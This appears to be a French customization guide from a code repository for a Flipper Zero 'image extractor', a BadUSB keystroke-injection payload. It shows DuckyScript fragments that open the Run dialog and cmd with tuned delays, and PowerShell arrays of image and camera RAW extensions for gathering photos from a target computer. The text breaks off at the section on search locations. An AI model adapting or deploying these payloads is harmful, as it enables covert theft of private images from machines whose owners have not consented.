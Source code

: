 # Guide de Personnalisation - Flipper Zero Image Extractor

## Vue d'ensemble

Ce guide vous explique comment personnaliser et adapter les payloads d'extraction d'images selon vos besoins spécifiques.

## Paramètres de Base Modifiables

### 1. Délais et Timing

#### DEFAULT_DELAY
```ducky
DEFAULT_DELAY 300    # Délai standard (300ms)
DEFAULT_DELAY 500    # Pour systèmes plus lents
DEFAULT_DELAY 150    # Pour systèmes rapides
```

#### DELAY Personnalisés
```ducky
GUI r
DELAY 500           # Augmentez si le menu Run tarde à s'ouvrir
STRING cmd
ENTER  
DELAY 1500          # Augmentez si CMD met du temps à s'ouvrir
```

### 2. Extensions de Fichiers

#### Extensions Haute Priorité
```powershell
$highPriorityFormats = @('.jpg', '.jpeg', '.png', '.raw', '.tiff')
```

#### Extensions Complètes
```powershell
$allFormats = @(
    '.jpg', '.jpeg', '.png', '.gif', '.bmp', '.webp',
    '.ico', '.svg', '.tiff', '.tif', '.raw', '.heic',
    '.jfif', '.psd', '.ai', '.webm', '.avif'
)
```

#### Ajout d'Extensions Personnalisées
```powershell
# Ajoutez vos formats spécifiques
$customFormats = @('.cr2', '.nef', '.arw', '.dng')  # RAW camera
$allFormats += $customFormats
```

### 3. Emplacements de Recherche
